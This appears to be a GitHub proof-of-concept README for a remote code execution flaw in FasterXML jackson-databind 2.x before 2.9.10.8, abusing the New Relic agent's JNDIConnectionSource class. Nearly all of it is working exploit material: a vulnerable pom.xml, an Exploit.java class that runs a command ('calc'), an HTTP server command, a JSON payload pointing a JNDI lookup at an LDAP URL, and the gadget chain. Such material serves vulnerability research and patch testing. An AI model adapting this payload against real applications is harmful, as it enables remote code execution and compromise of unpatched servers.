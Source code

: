 ## Description
FasterXML jackson-databind 2.x before 2.9.10.8 mishandles the interaction between serialization gadgets and typing, related to com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource

## How to RCE

pom.xml

```
<dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.newrelic.agent.java/newrelic-agent -->
        <dependency>
            <groupId>com.newrelic.agent.java</groupId>
            <artifactId>newrelic-agent</artifactId>
            <version>4.9.0</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
	
```

Exploit.java


```
import java.lang.Runtime;

public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

HttpServer

```
python -m  SimpleHTTPServer 4444

```

LDAPServer

![ldap](img/ldap.png)

POC.java
```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        String json = "[\"com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource\", {\"jndiLocation\":\"ldap://127.0.0.1:1288/Exploit\"}]";
        Object obj = mapper.readValue(json, Object.class);
        mapper.writeValueAsString(obj);

    }
}
```

Result:

![result](img/result.jpg)


## Gadget Chain

```
JNDIConnectionSource
	->setJndiLocation
    	->getConnection
        	->lookupDataSource
            	->lookup()
```


